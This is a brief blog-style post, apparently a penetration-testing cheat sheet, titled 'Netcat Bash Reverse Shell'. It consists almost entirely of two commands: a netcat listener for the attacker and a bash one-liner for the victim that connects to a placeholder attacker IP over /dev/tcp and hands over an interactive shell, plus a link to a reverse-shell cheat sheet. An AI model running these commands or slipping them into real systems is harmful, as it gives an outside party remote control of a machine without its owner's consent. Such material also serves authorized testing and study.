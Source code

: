 ```yaml
---
layout: post
title: "Netcat Bash Reverse Shell"
tags: [netcat, bash]
---
```


### Attacker:
```bash
nc -l -p 22222
```

### Victim:
```bash
bash -i >& /dev/tcp/<$ATTACKER_IP>/22222 0>&1
```

---
1. [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
